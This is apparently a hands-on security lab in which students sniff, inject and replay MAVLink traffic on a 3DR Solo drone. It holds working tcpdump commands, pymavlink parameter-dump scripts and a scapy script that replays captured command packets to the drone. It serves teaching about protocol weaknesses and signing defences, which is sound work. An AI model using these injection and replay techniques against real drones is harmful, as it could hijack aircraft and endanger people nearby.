

Lab: MAVLink Sniffing & Spoofing
Objectives
Prerequisites
-
3DR Solo powered on (no props)
-
Laptop connected to SoloLink WiFi
-
Tools: tcpdump, Wireshark, MAVProxy, Python 3 with pymavlink
pip install pymavlink
The Big Picture (Read This First)
This is the capstone of the MAVLink story from Module 17. You will watch the drone's control conversation, then join it uninvited — three escalating steps:
-
Sniff (Phases 1–3) — capture the traffic with
tcpdump, decode it in Wireshark, and read the drone's GPS, battery, and commands. This breaks confidentiality. -
Inject (Phases 4–5) — use
pymavlinkto send your own commands and read/modify parameters. The drone obeys because it never checks who you are. This breaks authenticity. -
Replay (Phase 6) — record a real command (a mode change) and blindly re-send the raw packet with
scapy; the drone accepts the copy. This breaks integrity / freshness.
Notice how each step maps to a CIA property from Module 1 — and how MAVLink v2 signing (Module 17) would stop steps 2 and 3 but not step 1. That's the entire security lesson of the protocol, demonstrated with your own hands.
-
Go the files provided and look for the
mavlink2.luafile -
Copy the file into one of these locations
/usr/lib/x86_64-linux-gnu/wireshark
/usr/lib/aarch64-linux-gnu/wireshark
~/.local/lib/wireshark/plugins
~/.wireshark/plugins
-
Start Wireshark
-
Confirm plugin is listed in Wireshark Help → About Wireshark → Plugins.
Phase 1: Capture MAVLink Traffic
- Connect to you 3DR Solo's WiFi
# Identify your wireless interface
ip a | grep wlan
# Capture all UDP traffic on port 14550
sudo tcpdump -i wlan0 udp port 14550 -w ~/workshop/captures/mavlink-session.pcap
# Let it run for 60 seconds while the drone is connected
# Then stop with Ctrl-C
Phase 2: Analyze in Wireshark
wireshark ~/workshop/captures/mavlink-session.pcap

Live MAVLink in Wireshark. Every heartbeat, GPS fix, and command is right there in plaintext — that's the confidentiality failure, made visible.
In Wireshark:
-
Apply filter:
mavlink_proto -
Observe the message stream — you should see:
HEARTBEAT(from drone at 1 Hz)ATTITUDE(roll, pitch, yaw at 10 Hz)GLOBAL_POSITION_INT(GPS coordinates at 4 Hz)SYS_STATUS(battery voltage, CPU load)
Common Mavlink Messages (1/3)
Examine a HEARTBEAT:
-
Expand
MAVLinkin packet details -
Note:
type(vehicle type),autopilot(ArduPilot),base_mode,system_status
Common Mavlink Messages (2/3)
Find GPS coordinates:
-
Filter:
mavlink_proto.msgid == 33(GLOBAL_POSITION_INT) -
Note the
latandlonfields (degrees × 1e7) -
Convert: lat / 1e7 = decimal degrees
Common Mavlink Messages (3/3)
Find battery data:
-
Filter:
mavlink_proto.msgid == 1(SYS_STATUS) -
Note
voltage_battery(millivolts)
Phase 3: Live Monitoring with MAVProxy
# Connect MAVProxy to the drone
mavproxy.py --master=udp:10.1.1.10:14550
# In MAVProxy, watch live message output
MAV> status
# Display specific message types
MAV> message ATTITUDE
MAV> message GLOBAL_POSITION_INT
# Show all incoming messages (verbose)
MAV> set heartbeat 1
Phase 4: Inject a MAVLink Command
Using pymavlink, inject a command directly to the flight controller:
# Save as: inject_command.py
from pymavlink import mavutil
import time
# Connect to the drone
conn = mavutil.mavlink_connection('udp:10.1.1.10:14550')
# Wait for heartbeat to get target sysid/compid
print("Waiting for heartbeat...")
conn.wait_heartbeat()
print(f"Connected: system {conn.target_system}, component {conn.target_component}")
# --- Safe commands for lab use (drone disarmed, no props) ---
# Request autopilot version info (completely safe)
conn.mav.command_long_send(
conn.target_system,
conn.target_component,
mavutil.mavlink.MAV_CMD_REQUEST_AUTOPILOT_CAPABILITIES,
0, # confirmation
1, 0, 0, 0, 0, 0, 0
)
# Wait for response
msg = conn.recv_match(type='AUTOPILOT_VERSION', blocking=True, timeout=5)
if msg:
print(f"Firmware version: {msg.flight_sw_version}")
print(f"Middleware version: {msg.middleware_sw_version}")
print(f"OS version: {msg.os_sw_version}")
print(f"Board version: {msg.board_version}")
# Request all data streams (will generate a burst of telemetry)
conn.mav.request_data_stream_send(
conn.target_system,
conn.target_component,
mavutil.mavlink.MAV_DATA_STREAM_ALL,
4, # 4 Hz
1 # start
)
time.sleep(3)
# Read a few messages
for i in range(20):
msg = conn.recv_match(blocking=True, timeout=1)
if msg:
print(f"MSG: {msg.get_type()}")
print("Done.")
python3 inject_command.py
Phase 5: Read and Modify Parameters
# Save as: param_dump.py
from pymavlink import mavutil
import time
conn = mavutil.mavlink_connection('udp:10.1.1.10:14550')
conn.wait_heartbeat()
print("Connected")
# Request all parameters
conn.mav.param_request_list_send(conn.target_system, conn.target_component)
params = {}
while True:
msg = conn.recv_match(type='PARAM_VALUE', blocking=True, timeout=5)
if msg is None:
break
params[msg.param_id] = msg.param_value
print(f"{msg.param_id}: {msg.param_value}")
print(f"\nTotal parameters received: {len(params)}")
# Show security-relevant parameters
security_params = ['ARMING_CHECK', 'FS_THR_ENABLE', 'FS_GCS_ENABLE',
'FENCE_ENABLE', 'SYSID_THISMAV', 'BRD_SAFETYENABLE']
print("\n--- Security-relevant parameters ---")
for p in security_params:
if p in params:
print(f"{p}: {params[p]}")
python3 param_dump.py
Phase 6: MAVLink Replay Attack
- Start a fresh capture
sudo tcpdump -i wlan0 udp port 14550 -w ~/workshop/captures/mavlink-replay.pcap &
- In MAVProxy, change the flight mode (captures a mode-change command)
mavproxy.py --master=udp:10.1.1.10:14550
MAV> mode LOITER
# (wait a moment)
MAV> mode STABILIZE
# Exit MAVProxy (Ctrl-C)
- Stop the capture
kill %1
- In Wireshark, find the COMMAND_LONG packet that changed the mode
wireshark ~/workshop/captures/mavlink-replay.pcap
# Filter: mavlink_proto.msgid == 76
# Right-click → Export Packet Bytes → Save as mode-change-packet.bin
Replay the Packet Using scapy (Python)
# replay_attack.py
from scapy.all import *
import time
# Load the captured packet
pkts = rdpcap('~/workshop/captures/mavlink-replay.pcap')
# Find MAVLink COMMAND_LONG packets (you may need to adjust the filter)
mavlink_pkts = [p for p in pkts if UDP in p and p[UDP].dport == 14550]
# Replay each packet
print(f"Replaying {len(mavlink_pkts)} MAVLink packets...")
for pkt in mavlink_pkts:
# Reconstruct and send to drone
send(IP(dst="10.1.1.10")/UDP(dport=14550)/pkt[UDP].payload,
verbose=False)
time.sleep(0.1)
print("Replay complete.")
python3 replay_attack.py
Observe: The drone's flight mode indicator changes — the replayed command was accepted.
Discussion Questions
-
The drone accepted commands from your laptop's IP with no authentication. What should the drone check before accepting a command?
-
What is the impact of a MAVLink replay attack during an actual flight?
-
How would MAVLink v2 message signing prevent the replay attack you demonstrated?
-
Name two scenarios where MAVLink access could be weaponized by an insider threat.